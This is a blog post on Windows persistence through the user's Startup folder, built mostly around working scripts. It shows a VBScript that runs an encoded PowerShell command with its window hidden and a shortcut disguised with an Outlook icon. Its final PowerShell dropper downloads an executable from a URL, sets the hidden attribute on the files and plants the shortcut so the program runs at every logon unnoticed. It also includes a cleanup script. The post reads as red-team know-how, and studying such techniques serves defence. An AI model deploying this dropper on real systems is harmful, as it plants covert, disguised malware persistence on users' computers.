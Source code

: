 ```yaml
---
layout: post
title: Persistence using Startup Folder
excerpt_separator: <!--more-->
---
```


One of the most simple persistence methods when you have access as a non-administrative user is using the Startup folder. However, it is not so easy to go completely unnoticed by the legitimate user.

<!--more-->


Gists: 

- [Script to create files](https://gist.github.com/ricardojoserf/d021310080ea34c8c6187d82065dde85)

- [Script to delete files](https://gist.github.com/ricardojoserf/6e1a242e77a52c78b630af22d5709153)

<br>

-------------------------------------------


## Intro

The easiest way to set this persistence method is dropping a file in the Startup Folder of the user, which is in the path:

```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

This file can be an executable program (".exe" extension) but it can also be a Batch script (".bat" extension), Powershell script (".ps1" extension) or even a file shortcut (".lnk" extension). So if, for example, you copy the calc.exe binary from C:\Windows\System32\calc.exe to the mentioned Startup folder path, next time the user logs into the computer the calculator application will pop up.

From a non-attacker perspective, it is common to see big organizations using this and other similar techniques to make all the employee laptops to launch specific programs when the Operating System (usually Windows) starts. In this case, one approach is using shortcuts to open each of these programs: Teams, Outlook, Chrome...


## Executing a EXE without a window popping up

##### First fail: Powershell's window style hidden

For this specific case, we find a laptop where there are shortcuts to open some programs in the Startup folder, which open all the programs the employee needs for its daily work. However, even if the user uses Outlook everyday, there is not a shortcut for the program.

Furthermore, our goal is to run a .exe file every time the user boots the computer without any cmd window popping up, so first I tried to create a Batch file to execute the EXE file in the path:

```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UpdateOutlook.bat
```

The content of the file executes a Powershell command which executes the program in the path "c:\temp\OutlookUpdate.exe" and hides the window (that is why we use "-windowstyle hidden"):

```
powershell -windowstyle hidden -command c:\temp\OutlookUpdate.exe
```

What is the biggest problem with this approach? Even if you run this in an good, new, optimized computer, the window will pop up even if it is for half a second. If the computer is older, the time the window appears in the screen will be longer, and having the previous Powershell command for more than 15 seconds in the user's screen is probably not the most OPSEC option. 

Could we encode the Powershell command? Of course we could, but it is even better if we avoid the window appearing even for half a second.


##### Changing Powershell for VBScript

For that we will use a .VBS script, which will not pop any cmd window. For example, the following script will execute an encoded powershell command which will call "c:\ProgramData\Outlook\OutlookUpdate.exe". If we create a .VBS script with this content in the Startup folder, the program will get executed and there will be no window popping the user could ever see:

```
Set objShell = WScript.CreateObject(""WScript.Shell"")
objShell.Run(""powershell -e YwA6AFwAUAByAG8AZwByAGEAbQBEAGEAdABhAFwATwB1AHQAbABvAG8AawBcAE8AdQB0AGwAbwBvAGsAVQBwAGQAYQB0AGUALgBlAHgAZQA=""), 0, True
```


##### Shortcut files

But, knowing the folder contains mostly shortcuts, maybe it makes more sense if the .VBS script is generated in other folder and we just leave a shortcut to it in the Startup folder. 

Furthermore, we will change the shortcut icon to a more reliable-looking one. We can do this using WScript:

```
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
wget $Url/$IcoFile -Outfile $Dir\$IcoFile
$Shortcut.TargetPath = "$Dir\$VbsFile"
$Shortcut.IconLocation = "$Dir\$IcoFile"
$Shortcut.Save()
```

##### Hidden files

Finally, we know we will have four files:

- The shortcut file in the Startup folder.
- The icon file used by the shortcut file.
- The VBScript file called by the shortcut.
- The EXE file we wanted to execute in the system at startup.

We will drop the icon and EXE file and generate the shortcut and VBScript file, and the four files will be on disk. 

We can use the "hidden" attribute so the files are not visible in the folder (by default, but you probably have File Explorer configured to see hidden items) or running "dir" (you should run "dir /a" to see these files). We could use:

```
attrib -h C:\ProgramData\Outlook\OutlookUpdate.exe
```


It is important to notice that the shortcut file can not be "hidden", but the icon, VBScript and EXE files can.


## Final scripts

This process is automated in the following script:


```
$Url = "http://127.0.0.1:8080"
$Dir="C:\ProgramData\Outlook"
$ExeFile = "notmalicious.exe"
$VbsFile = "CheckUpdate.vbs"
$LnkFile = "Outlook.lnk"
$IcoFile = "microsoft-outlook.ico"

## Create directory
echo "Creating directory $Dir"
mkdir $Dir

## Download and hide .exe
wget $Url/$ExeFile -Outfile $Dir\$ExeFile
attrib +h $Dir\$ExeFile
cmd /c "dir $Dir"
cmd /c "dir /a $Dir"

## Create .vbs
$B64Path = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Dir+"/"+$ExeFile))
echo $B64Path
cmd /c "echo Set objShell = WScript.CreateObject(""WScript.Shell"") > ""$Dir\$VbsFile"""
cmd /c "echo objShell.Run(""powershell -e $B64Path""), 0, True >> ""$Dir\$VbsFile"""

## Download .ico and create .lnk
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
wget $Url/$IcoFile -Outfile $Dir\$IcoFile
$Shortcut.TargetPath = "$Dir\$VbsFile"
$Shortcut.IconLocation = "$Dir\$IcoFile"
$Shortcut.Save()

## Hide .vbs and .ico
attrib +h "$Dir\$VbsFile"
attrib +h $Dir\$IcoFile
cmd /c "dir ""$Dir"""
cmd /c "dir /a ""$Dir"""
type "$Dir\$VbsFile"
cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"""
```


And this is the script to delete the files:

```
$Dir="C:\ProgramData\Outlook"
$ExeFile = "notmalicious.exe"
$VbsFile = "CheckUpdate.vbs"
$LnkFile = "Outlook.lnk"
$IcoFile = "microsoft-outlook.ico"

## Unhidden and delete files from Dir
cmd /c "dir /a $Dir"
attrib -h $Dir\$ExeFile
attrib -h $Dir\$VbsFile
attrib -h $Dir\$IcoFile
del $Dir\$ExeFile
del $Dir\$VbsFile
del $Dir\$IcoFile
cmd /c "dir /a $Dir"

## Delete .lnk
del "$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile"
cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"""
```

However, before deleting these files the program must be stopped if it is already running:

```
tasklist | findstr notmalicious.exe
taskkill /f /pid PID
```

<br>